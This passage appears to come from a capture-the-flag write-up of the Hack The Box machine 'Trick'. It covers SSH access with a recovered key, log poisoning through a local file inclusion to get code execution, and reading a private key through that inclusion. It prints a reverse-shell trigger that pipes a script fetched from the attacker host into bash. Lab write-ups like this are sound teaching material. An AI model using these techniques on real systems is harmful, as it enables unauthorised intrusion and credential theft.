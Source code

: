 It fails here because the pemissions on the private key are too open (664,
which means everyone on my system can read it). I’ll fix that, and then it
works:

    
    
    oxdf@hacky$ chmod 600 ~/keys/trick-michael
    oxdf@hacky$ ssh -i ~/keys/trick-michael michael@trick.htb
    Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    michael@trick:~$ 
    

### Shell Via Log Poisoning

Using the LFI in the marketing page, I can also read the NGINX access logs:

[![image-20221027102405426](https://0xdfimages.gitlab.io/img/image-20221027102405426.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221027102405426.png)

The user agent is logged there, so I’ll send something with a webshell in it:

![image-20221027103012501](https://0xdfimages.gitlab.io/img/image-20221027103012501.png)

I’ll include the string 0xdf to find within the potentially large log. Now
I’ll include the log again, and this time there’s execution:

[![image-20221027103154643](https://0xdfimages.gitlab.io/img/image-20221027103154643.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221027103154643.png)

To get a shell, I’ll use `&cmd=curl+10.10.14.6/s|bash `, and host a simple
[Bash Reverse Shell](https://www.youtube.com/watch?v=OjkVep2EIlw) with a
Python webserver.

### Shell Via SSH Key Read

With the file include as michael, and `id_rsa` is a default name for a private
key, there’s no reason I can’t just read that SSH key, skipping the LFI remote
code execution:

![image-20221015071233762](https://0xdfimages.gitlab.io/img/image-20221015071233762.png)

## Shell as root

### Enumeration

#### sudo

